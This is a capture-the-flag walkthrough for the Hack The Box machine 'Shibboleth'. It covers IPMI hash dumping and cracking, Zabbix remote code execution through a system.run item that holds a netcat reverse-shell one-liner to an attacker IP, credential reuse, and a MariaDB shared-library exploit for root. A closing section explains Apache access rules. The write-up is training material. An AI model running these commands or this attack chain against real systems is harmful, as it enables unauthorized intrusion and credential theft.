##### Box Name: Shibboleth
##### Difficulty: Medium
---

## Enumeration

### Port Scan
##### TCP
```js
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb
```

Add `shibboleth.htb` to `/etc/hosts` file.

##### UDP
```js
PORT      STATE         SERVICE     VERSION
623/udp   open          asf-rmcp
```

Other ports found were in `open|filtered` STATE and I'm not including them here in the results.

### Web Server enumeration
#### vHost scanning
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -o ffuf-vhosts.out -u http://shibboleth.htb -H "Host: FUZZ.$(site="http://shibboleth.htb"; echo ${site#*//} )" -fw 18
```

Found vHosts:
- monitor
- monitoring
- zabbix

All the three vhosts take us to the same page.
It is a monitoring tool called **Zabbix**

There is an authentication bypass for the v5.0 of Zabbix but its not exploitable in the Zappy application on the server. We are at a dead end.

### UDP Port 623
Doing a quick google search about UDP port 623, I came across IPMI (Intelligent Platform Management Interface) protocol and about Baseboard Management Controllers (BMCs).
Check these resources for further understanding:
- https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/
- https://book.hacktricks.xyz/pentesting/623-udp-ipmi

I fired up metasploit to use its ipmi modules



We have found an admin hash
```
Administrator:836b54da82180000cffc521f48855e4dc4c55663cafc675e4719b43992d8faadc55b2cb9fd8c2d5fa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:3c62b4109945ae35ba1998f6348ac490bbad6a65
```

Save the output in the hashcat format (by setting the correct options and rerunning the exploit) and use hashcat to crack the hash
```shell
.\hashcat.exe -D2 -m 7300 .\passwords\shibboleth-ipmi.txt .\rockyou.txt
```

Cracked password: **`ilovepumkinpie1`**

Use the password to login as `Administrator` on the Zabbix portal.

### Exploitation

I came across different articles/blogs discussing the exploitation via the Zabbix the API via `/api_jsonrpc.php` but all the requests to that endpoint returned 403 Forbidden status code.



I moved over to check for other ways to somehow get a shell on the system...
In the Zabbix console, go to Configuration => Hosts => shibboleth.htb
There we have many different pages on of which is  `Items`
It contains different commands along with their respective keys. Let's create an item to see all the available items:



There is a specific key called `system.run[command,<mode>]` that looks interesting. It allows us to run commands on the host. We can have RCE on the system.
We just have to set the Key as the following and test:
```sh
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.34 1337 >/tmp/f, nowait]
```

The second parameter `nowait` will be needed (default is set to `wait`). Without this parameter, the shell will drop immediately.



Now that we have a shell on the system, as `zabbix` user, let's enumerate the system.
There is another user account `ipmi-svc`. We need to privesc to that user to get the user flag.
I searched for various things such as config files, processes running on system as other user, etc, but couldn't find anything useful and was on a dead end.
Then I came across the config file for ipmi where the credentials of the users are stored. 



Although its the same password I have found earlier, I did not try reusing this password on `ipmi-svc` user. Let's try that now :)

### Privesc to user
The password works on the user and we get a shell as `ipmi-svc`
I began enumeration on the system once again as this user and found an interesting file that is owned by the group `ipmi-svc`. It is the config file for zabbix server.



It contains the database credentials.

### Privesc to root
I checked the database and table for any password hashes and found a few blowfish hashes.



But I couldn't crack any hash :(
Time to move on. I went back to enumerating the system once again but couldn't find anything of use. I decided to jump back in to the SQL login and one thing came to my mind was to check the version of the database to see if it's vulnerable.



The MariaDB version `10.3.25-MariaDB-0ubuntu0.20.04.1`

I found an exploit over here https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html

Exploit steps shown below:



Transfer the malicious `test.so` file to the shibboleth machine and login via lysql



### Beyond root
I'd like to end this with this short beyond root section which I got inspiration from the Beyond Root videos by [@0xdf_](https://twitter.com/0xdf_), I decided to do a little beyond root part for this box as well.
We will revisit the part where previously we saw that the Zabbix API endpoint at `/api_jsonrpc.php` was responding with a 403 Forbidden status code. This prevented us to use its API endpoint.
Let's check the the apache vhost config file located at `/etc/apache2/sites-enabled/000-default.conf`. 



We see that for the Zabbix vHost, these endpoints are set to deny connections from all hosts.

From the Apache documentation,

>The `<Location>` directive limits the scope of the enclosed directives by URL

In the config file in the box, it is therefore used to explicitly specify the configurations only for the set endpoints.
Within the Location directive, we have three more directives:
- Order
- Deny
- Allow

These are used to control access to particular parts of the server. The access is controlled based on the characteristics of the client such as hostname and IP address. 
The Allow and Deny directives specifies which clients can or can't access the server. The Order directive sets the default access state and configures how the Allow and Deny directives interact with each other.

One thing to remember is that the order in which the lines appear in the configuration file doesn't matter. All the Allow and Deny lines are processed as seperate groups. 
However, the ordering in the Order directive itself is of importance.
`Order deny,allow` is different from `Order allow,deny`.

In the first one, all the Deny directives are processed first. If the requesting host matches, it is denied unless it also matches the Allow directive. Any other request that do not match any Allow or Deny directive are permitted.

On the latter one, all the Allow directives are processed first. To be allowed, the host of the requesting client must match at least one of them. Else the request will be rejected. Then all the Deny directives are processed. If there is any match, that request is also rejected. Any other request that do not match any Allow or Deny directive are denied by default.

So according to the configuration in the Shibboleth box, 
```
Order deny,allow
Deny from all
Allow from 127.0.0.1
```
The Order is deny,allow. So the Deny directives will be processed first. Here, **all** requests will be denied unless it is from 127.0.0.1, for which the request will be allowed.

Hope you learned something new in this beyond root section. 
Now its time to bid farewell. Until next time.
